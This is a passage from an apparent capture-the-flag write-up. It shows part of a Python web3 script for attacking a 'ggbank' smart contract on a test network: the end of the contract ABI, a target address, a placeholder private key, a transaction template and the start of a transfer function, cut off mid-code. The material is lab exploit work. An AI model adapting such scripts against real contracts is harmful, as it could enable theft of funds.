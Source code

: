 ```
            {
                "name": "success",
                "type": "bool"
            }
        ],
        "payable": True,
        "stateMutability": "payable",
        "type": "function"
    },
    {
        "inputs": [],
        "payable": False,
        "stateMutability": "nonpayable",
        "type": "constructor"
    },
    {
        "anonymous": False,
        "inputs": [
            {
                "indexed": False,
                "name": "b64email",
                "type": "string"
            },
            {
                "indexed": False,
                "name": "back",
                "type": "string"
            }
        ],
        "name": "GetFlag",
        "type": "event"
    }
]

mytarget = "0xACB7a6Dc0215cFE38e7e22e3F06121D2a1C42f6C"
mytarget_private_key = 这是私钥


transaction_dict = {'chainId': 3,
                    'from':Web3.toChecksumAddress(mytarget),
                    'to':'', # empty address for deploying a new contract
                    'gasPrice':10000000000, 
                    'gas':200000,
                    'nonce': None,
                    'value':10000000000000000,
                    'data':""}


ggbank_ins = w3.eth.contract(abi=ggbank)
ggbank_ins = ggbank_ins(address=Web3.toChecksumAddress(target))

nonce = 0

def transfer(address, private_key):
    print(address)
    global nonce
    # 发钱
    if not nonce:
        nonce = w3.eth.getTransactionCount(Web3.toChecksumAddress(mytarget))

    transaction_dict['nonce'] = nonce
    transaction_dict['to'] = Web3.toChecksumAddress(address)
    signed = w3.eth.account.signTransaction(transaction_dict, mytarget_private_key)
```

  [1]: http://static.zybuluo.com/LoRexxar/89eepzp81mzw31l8fhf737k8/image.png